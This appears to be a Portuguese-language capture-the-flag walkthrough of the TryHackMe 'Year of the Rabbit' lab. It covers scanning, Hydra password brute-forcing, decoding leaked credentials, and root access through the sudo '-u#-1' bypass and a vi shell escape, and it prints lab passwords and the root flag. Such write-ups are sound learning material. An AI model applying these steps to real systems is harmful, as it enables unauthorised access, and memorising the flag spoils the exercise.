

# Year of the Rabbit

## Login ssh

```bash
nmap -sV -A 10.10.65.37
```

```bash
gobuster -u 10.10.65.37 -w wordlist/directory-commom.txt -x php,html,txt
```

- `10.10.65.37/assets`
- Em `style.css`
    
    ```
      /* Nice to see someone checking the stylesheets.
         Take a look at the page: /sup3r_s3cr3t_fl4g.php
      */
    ```
    
- `10.10.65.37/sup3r_s3cr3t_fl4g`
- Em `10.10.65.37/sup3r_s3cr3t_fl4g.php` usando o `no-scripts` e o `BurpSuite`
    
    
    
    - `/intermediary.php?hidden_directory=/WExYY2Cv-qU`
- `10.10.65.37/WExYY2Cv-qU`
- Baixe a imagem
    
    ```bash
    wget http://10.10.65.37/WExYY2Cv-qU/Hot_Babe.png
    strings Hot_Babe.png
    ```
    
    ```bash
    Eh, you've earned this. Username for FTP is ftpuser
    One of these is the password:
    [...]
    ```
    
- Salve o resto do arquivo para usar de senha e o usuario
    
    ```bash
    hydra -l ftpuser -P passwords.txt ftp://10.10.65.37
    ```
    
    `[21][ftp] host: 10.10.65.37 login: ftpuser password: 5iez1wGXKfPKQ`
    
- login ftp
    
    ```bash
    ssh ftpuser@10.10.65.37
    ftpuser
    5iez1wGXKfPKQ
    ls
    get Eli's_Creds.txt
    exit
    strings Eli's_Creds.txt
    ```
    
- Isso eh uma criptografia brain fuck
    - [https://www.dcode.fr/langage-brainfuck](https://www.dcode.fr/langage-brainfuck)
    
    > user: eli
    Password: DSpDiM1wAEwid
    > 
- Login ssh
    
    ```bash
    ssh eli@10.10.65.37
    DSpDiM1wAEwid
    "Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"
    ```
    
- Procurando esse s3cr3t
    
    ```bash
    locate s3cr3t
    /usr/games/s3cr3t
    /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
    /var/www/html/sup3r_s3cr3t_fl4g.php
    ```
    
- `/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!`
    
    ```bash
    cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
    	Gwendoline MniVCQVhQHUNI
    ```
    
- Login gwendoline
    
    ```bash
    cat /etc/passwd
    exit
    ssh gwendoline@10.10.65.37
    ```
    

## What is the user flag?

```bash
cat /home/gwendoline/user.txt
```

## What is the root flag?

```bash
sudo -l
sudo -l -l
```

- Pesquisando por `(ALL, !root) NOPASSWD: vulnera
    - [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)
- ou
    
    ```bash
    sudo -v
    ```
    
    - `Sudo version 1.8.10p3`
- `os.system("sudo -u#-1 "+ binary)`
    
    ```bash
    sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
    ```
    
- Continua
    - [https://gtfobins.github.io/gtfobins/vi/](https://gtfobins.github.io/gtfobins/vi/) (b)
    
    ```bash
    :set shell=/bin/sh
    :shell
    ```
    
- Pegando flag
    
    ```bash
    cat /root/root*
    ```
    
    `THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}`